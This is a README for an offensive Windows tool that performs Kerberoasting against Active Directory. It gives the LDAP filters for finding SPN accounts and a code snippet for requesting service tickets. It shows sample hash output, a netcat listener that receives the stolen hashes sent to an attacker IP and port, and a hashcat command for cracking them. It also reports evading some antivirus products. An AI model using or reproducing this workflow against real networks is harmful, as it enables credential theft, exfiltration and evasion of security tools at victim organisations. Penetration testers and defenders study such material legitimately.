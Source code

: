 ﻿### YAKRR
#### Yest Another KerbeRoast Recipe
Based on https://github.com/GhostPack/SharpRoast, even if deprecated it works quite well.
I slighty modified the code creating a class **DCEnumNC.KBRoast** with only one public method
*RoastNow* that accept as arguments an array of strings, exactly the same interface of the original
project. See the comment on the code to explore the parameters list.
I have also coded a *helper* class **DCEnumNC.EnumDC** with (at the moment) only 
one public static method to simply get the DC name server and the IP.<br>
The console application, that actually wraps the calls to the class methods, accept 3 parameters:
1. The attacker IP used to send the report
2. The port of the attacker IP
3. The command parameter *forwarded* to the RoastNow method

How does it works?
1. First the program check if the machine has joined a domain using the method **EnumDC.GetDCInfo()**
<br>If an error occurs probably the machine is not part of a domain, otherwise the Domain controller
name server and IP are returned as string.
2. Then the method **KBRoast.RoastNow(args)** is called passing the second argument as passed to 
the program
```
string[] KBargs = { args[2] };
sb.Append(KBRoast.RoastNow(KBargs)); 
```
3. If the argument passed is *all* the LDAP query will try to retrive all the users, 
except krbtgt<sup>1</sup> obects as follows:
```
(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt))
```
4. If a username is provided, e.g. zinz, the query will be the follows:
```
(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=zinz))
```

The query retrive all the user objects <sup>2</sup>, having the SPN attribute set.

5. For each found user the private method **GetDomainSPNTicket** is called and the program issue a
Kerberos token request, if succeed the hash is returned in a hashcat format, ready to be parsed using
the mode **13100  Kerberos 5 TGS-REP etype 23**. The encryption (eType) expected is 23 *rc4-hmac*<sup>3</sup>
and in case of error parsing the cipher text the program will return the *TicketHexStream* that we
could try to parse using the powershell function *Get-KerberoastHashFromAPReq* from the following
script: https://github.com/leechristensen/Random/blob/master/PowerShellScripts/Get-KerberoastingHash.ps1 
<br>The program creates a report having the following format:
```
DC name: DC01.zinz.local, IP: 192.168.1.100
SamAccountName         : hack
DistinguishedName      : CN=Hack Her,CN=Users,DC=zinz,DC=local
ServicePrincipalName   : http/zinz.org
Hash                   : $krb5tgs$23$*$zinz.local$http/zinz.org*$51A8E402265B9E3C7FFCE1DFC3134234$60870EA
                         3822A8AC2CBDA715E7ABEC906954D1B9849040AC1CE29B0BCCDE01ED042AEB0DED04F70F25E1BD29
                         6E1FF304AE6E24FAB92C67566BB5005A22F21F27268B1EC3B5F6F0F573B2EE8BDBC0A53716420E54
                         0E2FD0F439BBA985D5D1746749A0DFBF78955FD038E8F6FBE4F5C31B23FFA6FF625695B184EFCFB1
                         116F065514B479A5830196029344152414D14771BD2DD1AAB698DA998BD00AD66D4911B8466DEE07
                         A0DE3515A98FCBC9F4BF4CD80CDFE2AA6F2C71A463CA1F0FD9C7EE3B22CB339C3A7ED7260E07CA02
                         5F3E2DE9DE2BDDE354744B88AC075D4ED3F533B2F19FAEC645DCCECF5A03B0985BD55423D6DB2142
                         7507AB166A8B3BA6AFF603E12296A8FCFD644DD41AF70EB7CFBA8B0FE2E55A462BEB43C4759490C0
                         AA92CE10E2DECDD9A9A7839E4147ADE8D613C30250075E26C2FD0B12C2CD6B5A4AF324EC051BC1A6
                         D1822554EAEC5E4518BEB7925673585BCA19A554C1EAD351D6BA9E42CA98510CA190B2539F6B29EF
                         A9C28B7DAFFDE7B32227058179A6830F461365EB9FE53E0787686085E0A321AA3504B904F6D58FB9
                         08D64094A95115394111B2AD474E0FF9A77C62A07949D611051F7F1EBE4115763BE21104233CAE0D
                         F2E2C6E27E11C8B473CE514ECED538B98ADFA4FB77527BAC1E6AF2300FFCA1C56E3DC3C3D95FC2AE
                         1508D7C106C29414979D2E80C677B82EDD0FA91F73DF6D4D4EEBFE30A67DB58D99CFCF05AC382951
                         D45DC4510D14B307D869465F90FEBA2E3254396B4735A5D81DDA6D6F3C04F078DFEF7F40CF8FD3FE
                         D1C2466DEF72AEBD8F27AEE44375FD42E95627902887D427B28EAE7901C8FBD8051A0B758F39E457
                         4BCE0CD6E8B85EF30617D597C153F0163EED64FDAE91CF0A9F77E3BD813D389499AB2C0A5C4EB6B8
                         20AFB6F20929E95CCCAEB775EC6A5316BB21C3209A7065A8D314D9BA2BCD990D11EE47822B24DD1D
                         2DD8B8CF36EC2D9F32C26D9F54180A6F7B98FAEB3CE488766F12A60988C2B64D9A93E627A5D58E69
                         F0C3E38A6E80F0A9D8B03FD415F863C8743D082F3124A4C4B1AE623D21D65CCAAA9457ADC3667CB3
                         DFD63E3D36C9D2EE89A13D9C4996694D623B373A1A42C5E5B030F471B18EE26DF7BC634712D2DC1F
                         5D1F3D852C54835E7024DF57C2A4698A23EE7BBD903DF577604D872A40341FC922B7D841D5694974
                         417E0CFF812AD9480F96227839D33CCD43AA791D42083BA36709680CE1E29AD9E106167C40913924
                         CBE6FFBB34C5DFDB81F9B53DA8C5DA5A28F809A3B192A3178D6FBDB0ACC3305D421B7C0FBB168222
                         0CCBC20C798C9B129CDBB87950D19BB44C42E3DA8C54AD9CFDCB8A07720618617AEAD750398258F4
                         5DAD90CAE1ED1111095AB6840BB0BDB3C4C1DC0DBB861F49421D251BCA5AD294EE3969B4BB194A43
                         371BD1C61D9
...
```

The report is finally sent to the attacker using a network TCP stream. On the attacker we can save
the stream to a text file using the following command:

    nc -lvp <port> > kbrep.txt
    
As said the IP and the port of the attacker are passed as arguments 1 and 2 to the program.

6. Finally we can try to reverse the hash locally using hashcat<br>
![Screenshot](hashcatKerb.png)
Here I have found 2 passwords using the rockyou wordlist, please note that the second one *Toor1234* 
has been added on the wordlist and it's not present on the default rockyou file. The command used was:
```
hashcat.exe -a 0 -m 13100 -w 3 --status --status-timer=60 --potfile-disable -p : -O --hwmon-temp-abort=85 -r rules\best64.rule kerbTicketHash.txt wordlists\rockyou.txt
```
#### About AV bypass
Using this technique I was able to bypass some well known AV solutions but not Windows defender! 
To low the fingerprint on the victim we could try to get back the encoded requested ticket without
parsing to the hashcat format, doing this operation locally.

---
<small><sup>1</sup> The KRBTGT account is a local default account that acts as a service account for 
the Key Distribution Center (KDC) service. More info at: https://adsecurity.org/?p=483
<br><sup>2</sup> The filter (sAMAccountType=805306368) for user objects is more efficient than 
the usual filters<br>
<sup>3</sup> https://www.iana.org/assignments/kerberos-parameters/kerberos-parameters.xhtml#kerberos-parameters-1 
</small>


